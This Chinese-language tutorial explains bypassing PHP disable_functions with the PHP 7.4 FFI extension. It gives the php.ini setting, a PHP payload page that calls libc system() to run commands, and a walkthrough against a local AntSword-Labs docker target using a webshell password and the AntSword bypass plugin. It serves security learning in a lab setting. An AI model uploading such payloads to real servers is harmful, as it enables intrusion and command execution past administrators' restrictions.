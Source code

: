 
## 利用 FFI 扩展绕过

`PHP7.4` 的一个新特性 `FFI（Foreign Function Interface）`

当 PHP 所有的命令执行函数被禁用后，通过 PHP 7.4 的新特性 FFI 可以实现用 PHP 代码调用 C 代码的方式，先声明 C 中的命令执行函数，然后再通过 FFI 变量调用该 C 函数即可 `Bypass disable_functions`。

**使用条件**

- Linux 操作系统
- PHP >= 7.4
- 开启了 FFI 扩展且 `ffi.enable=true`

```ini
[ffi]
; FFI API restriction. Possible values:
; "preload" - enabled in CLI scripts and preloaded files (default)
; "false"   - always disabled
; "true"    - always enabled
ffi.enable=true

; List of headers files to preload, wildcard patterns allowed.
;ffi.preload=
```

使用 `docker` 部署服务：
```bash
apt-get install libffi-dev

docker-php-ext-install ffi
```
重启服务，上传 Payload 网页

```php
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("whoami > /tmp/123");
echo file_get_contents("/tmp/123");
@unlink("/tmp/123");
?>
```

**蚁剑靶场测试**

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/8
docker-compose up -d
```

连接 http://127.0.0.1:18080/index.php	ant

使用「绕过 disable_functions」插件, 选择 PHP74_FFI 模式进行
